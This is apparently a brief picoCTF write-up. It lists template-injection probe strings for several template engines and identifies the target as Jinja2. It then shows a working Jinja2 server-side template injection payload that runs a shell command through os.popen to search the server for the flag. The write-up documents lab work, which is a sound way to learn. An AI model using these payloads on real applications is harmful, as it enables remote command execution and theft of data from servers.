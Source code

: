 #### Sol

after testing these commands:

**Jinja2 (Python Flask/Django)** : {{ 7**7 }}
 **Freemarker (Java)** : ${7*7}
 **Velocity (Java)** : #set($a = 7*7)${a}
 **Thymeleaf (Java)** : ${7*7}
 **Twig (PHP Symfony)** : {{ 7*7 }}
 **Smarty (PHP)** : {$7*7}
 **Mako (Python)** : <% print 7*7 %>


we had confirmed that the underlying framwork is Jinja2

then we thest these payloads:

`{{ config }}`

it worked.

then we tried:

```
{{ namespace.__init__.__globals__.os.popen('grep picoCTF . -rnw').read() }}
```

![1746196988051](image/README/1746196988051.png)




Refference:

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md?ref=blog.qz.sg#jinja2---remote-command-execution
